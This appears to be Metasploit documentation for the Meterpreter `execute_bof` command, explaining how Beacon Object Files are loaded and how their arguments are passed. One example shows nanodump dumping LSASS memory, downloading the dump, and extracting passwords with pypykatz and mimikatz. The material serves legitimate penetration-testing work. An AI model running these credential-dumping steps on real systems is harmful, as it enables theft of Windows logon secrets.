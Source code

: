 This guide outlines how to use the Meterpreter `execute_bof` command as provided by the `bofloader` extension. It allows
a Meterpreter session to execute "Beacon Object Files" or BOF files for short. A BOF is a
[Common Object File Format][1] (COFF) executable file with an API of standard functions defined in [beacon.h][2].

The `bofloader` extension is only available for the Windows native Meterpreter, i.e. it is unavailable in the Java
Meterpreter even when running on the Windows platform.

# Execution Environment
**Warning:** The execution environment is shared with the Meterpreter process. If there is an exception or the BOF
crashes, the Meterpreter session will die. It is suggested that users invoke this functionality through a dedicated
session to avoid losing access altogether.

The loader and execution environment are provided by [trustedsec/COFFLoader][3]. The extension is therefore subject to
the same limitations.

The following functions are unavailable:

* `BeaconDataPtr`
* `BeaconUseToken`<sup>1</sup>
* `BeaconRevertToken`<sup>1</sup>
* `BeaconIsAdmin`
* `BeaconInjectProcess`
* `BeaconInjectTemporaryProcess`

<sup>1</sup> The token functions are defined and present, but will only effect the execution of the BOF and not the
Meterpreter runtime environment.

Currently, there is only one output stream. All output data processed by `BeaconOutput` and `BeaconPrintf` is combined
into that stream. BOFs should not use this for outputting binary data.

# Usage
The `bofloader` extension provides exactly one command, through which all of the provided functionality is accessed.

`execute_bof </path/to/bof_file> [Options] -- [BOF Arguments]`

* `-c` / `--compile` -- Compile the input file (requires mingw).
* `-e` / `--entry` -- The entry point (default: `go`).
* `-f` / `--format-string` -- Argument format-string. See details below.

## Compile
The compile option will use a local mingw instance to compile the input file into a COFF file for execution. The
standard [beacon.h][2] file will be in the include path automatically. In this case, the input file is treated as a C
source file instead of compiled data.

## Entry Point
Once loaded the loader will call the BOF entry point. By default, this value is `go`. The entry point option can change
it to another valid function to call instead.

## Argument Format-String
The `execute_bof` command is capable of serializing arguments to be sent to the BOF for execution. The user must define
the data type of each argument that the BOF file expecting to see. This information would come from either reading the
BOF's documentation or source code. **Incorrectly specifying the arguments or omitting them entirely can result in the
BOF crashing and the Meterpreter session dying.**

BOF argument types are defined in the format string argument with `-f` / `--format-string`.

The following table describes each of the types.

| Type    | Description                                                     | Unpack With (C)               |
| --------|-----------------------------------------------------------------|-------------------------------|
| b       | binary data (e.g. 01020304, file:/path/to/file.bin)<sup>1</sup> | BeaconDataExtract             |
| i       | 32-bit integer (e.g. 0x1234, 5678)<sup>2</sup>                  | BeaconDataInt                 |
| s       | 16-bit integer (e.g. 0x1234, 5678)<sup>2</sup>                  | BeaconDataShort               |
| z       | null-terminated utf-8 string                                    | BeaconDataExtract             |
| Z       | null-terminated utf-16 string                                   | (wchar_t *)BeaconDataExtract  |

<sup>1</sup> Binary data arguments are specified as either a stream of hex characters or as the path to a file local to
the Metasploit Framework instance. In the case of a file path, it must be prefixed with `file:`.

<sup>2</sup> Integer arguments are specified as either decimal or hexadecimal literals.

Unknown arguments are treated as BOF arguments. Additionally, any arguments after the `--` terminator are explicitly
treated as BOF arguments. Using the terminator allows ambiguous arguments to such as `--help` to be forward to the BOF
instead of being processed locally. The number of BOF arguments to be forward must equal number of characters in the
argument format string.

# Usage Examples
Executing [dir][4], passing the path argument and number of sub-directories to list.

```msf
meterpreter > execute_bof CS-Situational-Awareness-BOF/SA/dir/dir.x64.o --format-string Zs C:\\ 0
Contents of C:\*:
	08/05/2022 15:17           <dir> $Recycle.Bin
	08/05/2022 15:16      <junction> Documents and Settings
	09/22/2022 08:35      1342177280 pagefile.sys
	08/05/2022 16:48           <dir> PerfLogs
	09/08/2022 12:51           <dir> Program Files
	09/15/2018 05:06           <dir> Program Files (x86)
	08/05/2022 15:26           <dir> ProgramData
	09/07/2022 10:24           <dir> Python27
	08/05/2022 15:16           <dir> Recovery
	08/05/2022 15:40           <dir> System Volume Information
	08/05/2022 15:16           <dir> Users
	09/01/2022 13:49           <dir> Windows
	                      1342177280 Total File Size for 1 File(s)
	                                                     11 Dir(s)

meterpreter > 
```

Executing [nanodump][5]. First the PID of LSASS is found, then the argument string is constructed. The output must be
written to disk. Once completed, the dump file can be downloaded from the remote host.

```msf
meterpreter > ps lsass
Filtering on 'lsass'

Process List
============

 PID  PPID  Name       Arch  Session  User                 Path
 ---  ----  ----       ----  -------  ----                 ----
 712  556   lsass.exe  x64   0        NT AUTHORITY\SYSTEM  C:\Windows\System32\lsass.exe

meterpreter > execute_bof nanodump.x64.o --format-string iziiiiiiiiziiiz 712 nanodump.dmp 1 1 0 0 0 0 0 0 "" 0 0 0 ""
Done, to download the dump run:
download nanodump.dmp
to get the secretz run:
python3 -m pypykatz lsa minidump nanodump.dmp
mimikatz.exe "sekurlsa::minidump nanodump.dmp" "sekurlsa::logonPasswords full" exit
meterpreter > download nanodump.dmp 
[*] Downloading: nanodump.dmp -> /mnt/hgfs/vmshare/nanodump.dmp
[*] Downloaded 1.00 MiB of 11.56 MiB (8.65%): nanodump.dmp -> /mnt/hgfs/vmshare/nanodump.dmp
[*] Downloaded 2.00 MiB of 11.56 MiB (17.31%): nanodump.dmp -> /mnt/hgfs/vmshare/nanodump.dmp
[*] Downloaded 3.00 MiB of 11.56 MiB (25.96%): nanodump.dmp -> /mnt/hgfs/vmshare/nanodump.dmp
[*] Downloaded 4.00 MiB of 11.56 MiB (34.62%): nanodump.dmp -> /mnt/hgfs/vmshare/nanodump.dmp
[*] Downloaded 5.00 MiB of 11.56 MiB (43.27%): nanodump.dmp -> /mnt/hgfs/vmshare/nanodump.dmp
[*] Downloaded 6.00 MiB of 11.56 MiB (51.92%): nanodump.dmp -> /mnt/hgfs/vmshare/nanodump.dmp
[*] Downloaded 7.00 MiB of 11.56 MiB (60.58%): nanodump.dmp -> /mnt/hgfs/vmshare/nanodump.dmp
[*] Downloaded 8.00 MiB of 11.56 MiB (69.23%): nanodump.dmp -> /mnt/hgfs/vmshare/nanodump.dmp
[*] Downloaded 9.00 MiB of 11.56 MiB (77.89%): nanodump.dmp -> /mnt/hgfs/vmshare/nanodump.dmp
[*] Downloaded 10.00 MiB of 11.56 MiB (86.54%): nanodump.dmp -> /mnt/hgfs/vmshare/nanodump.dmp
[*] Downloaded 11.00 MiB of 11.56 MiB (95.2%): nanodump.dmp -> /mnt/hgfs/vmshare/nanodump.dmp
[*] Downloaded 11.56 MiB of 11.56 MiB (100.0%): nanodump.dmp -> /mnt/hgfs/vmshare/nanodump.dmp
[*] download   : nanodump.dmp -> /mnt/hgfs/vmshare/nanodump.dmp
meterpreter > 
```

# References

* [hstechdocs.helpsystems.com/manuals/cobaltstrike][6] for Cobalt Strike's BOF documentation
* [beacon.h][2] source code for the BOF API
* [TrustedSec/COFFLoader][3] for the source code of the loader
* [trustedsec/CS-Situational-Awareness-BOFF][7] for a collection of useful BOFs

[1]: https://en.wikipedia.org/wiki/COFF
[2]: https://github.com/Cobalt-Strike/bof_template/blob/4a5009fc4adeb35bb1b1887da478280f12f9693a/beacon.h
[3]: https://github.com/TrustedSec/COFFLoader
[4]: https://github.com/trustedsec/CS-Situational-Awareness-BOF/tree/master/src/SA/dir
[5]: https://github.com/helpsystems/nanodump
[6]: https://hstechdocs.helpsystems.com/manuals/cobaltstrike/current/userguide/content/topics/beacon-object-files_main.htm
[7]: https://github.com/trustedsec/CS-Situational-Awareness-BOF
